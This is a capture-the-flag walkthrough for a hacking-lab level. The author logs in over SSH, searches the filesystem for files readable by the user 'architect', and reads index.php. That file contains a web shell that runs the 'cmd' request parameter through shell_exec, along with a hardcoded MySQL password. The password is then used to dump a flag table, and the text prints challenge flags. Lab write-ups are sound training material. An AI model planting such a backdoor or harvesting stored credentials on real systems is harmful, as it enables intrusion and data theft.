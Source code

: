 # **Level 3**

![](https://i.imgur.com/2HFJFVD.png)

Well, Level seq still broken, lol.

```shell
sshpass -p 'FLAG-xAqW2yJg7xPDBWueTgjwNc1nVY' ssh architect@challenges.ringzer0team.com -p 10152
```

Let's find file from root which is readable and used by `architect`.

```shell
find / -readable -and -user architect 2>/dev/null | head -n 10
/var/www/index.php
/home/architect
/home/architect/.mysql_history
/home/architect/.bashrc
/home/architect/.bash_logout
```

Let's see a web page and a history of mysql using by architect.

I think something like `connect.php` or `PDO.php` will be more suspicious to store `username/password` for mysql database, however, there's nothing named like that.

Let's check `/var/www/index.php`.

```php
cat /var/www/index.php
<?php
if(isset($_GET['cmd'])) {
  $res = shell_exec(urldecode($_GET['cmd']));
  print_r(str_replace("\n", '<br />', $res));
  exit();
}
$info = (object)array();
$info->username = "arch";
$info->password = "asdftgTst5sdf6309sdsdff9lsdftz";
$id = 1003;

function GetList($id, $info) {
        $id = 2;
        $link = mysql_connect("127.0.0.1", $info->username, $info->password);
        mysql_select_db("arch", $link);
        $result = mysql_query("SELECT * FROM arch");
        $output = array();
        while($row = mysql_fetch_assoc($result)) {
                array_push($output, $row);
        }
        var_dump($output);
        return $output;
}
......?>
```

Luckly, we got what we want here.

Let's get into the database.

```shell
mysql -h localhost -u arch -p
Enter password: asdftgTst5sdf6309sdsdff9lsdftz
```

```mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| arch               |
+--------------------+
2 rows in set (0.00 sec)

mysql> use arch;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
+----------------+
| Tables_in_arch |
+----------------+
| arch           |
| flag           |
+----------------+
2 rows in set (0.00 sec)

mysql> select * from flag;
+---------------------------------+
| flag                            |
+---------------------------------+
| FLAG-0I68UrLA758G5G30806w637a4k |
+---------------------------------+
1 row in set (0.00 sec)
```

![](https://i.imgur.com/n2HPAiI.png)
